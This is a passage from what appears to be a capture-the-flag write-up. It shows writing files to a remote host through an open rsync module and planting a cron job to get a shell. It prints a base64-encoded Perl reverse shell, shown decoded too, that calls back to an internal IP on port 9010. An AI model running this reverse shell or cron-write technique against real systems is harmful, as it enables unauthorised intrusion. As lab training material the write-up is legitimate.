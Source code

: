     drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
    drwxr-xr-x          4,096 2018/07/15 17:42:39 var



I can write to the file system:



    # rsync rsync://backup:873/src/tmp/
    drwxrwxrwt          4,096 2018/07/26 21:27:16 .
    # rsync 0xdf rsync://backup:873/src/tmp/
    # rsync rsync://backup:873/src/tmp/
    drwxrwxrwt          4,096 2018/07/26 21:27:34 .
    -rw-r--r--              0 2018/07/26 21:27:34 0xdf



### Shell via Cron

I'll use the read / write access to verify that cron is enabled, and
then write one to get shell.

There's already a cron named `clean` in the folder, which is a good sign
that cron is enabled:



    # rsync rsync://backup:873/src/etc/cron.d/
    drwxr-xr-x          4,096 2018/07/25 21:41:13 .
    -rw-r--r--            102 2015/06/11 10:23:47 .placeholder
    -rw-r--r--             29 2018/05/04 20:57:55 clean



I'll write a cron file. First, a shell script that calls back to www on
port 9010:



    # echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjIwLjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d > shell.sh 
    # cat shell.sh
    perl -e 'use Socket;$i="172.20.0.3";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    # rsync -a shell.sh rsync://backup:873/src/tmp/
    # rsync rsync://backup:873/src/tmp/
    drwxrwxrwt          4,096 2018/07/25 21:38:36 .
    -rw-r--r--            220 2018/07/25 21:37:39 shell.sh
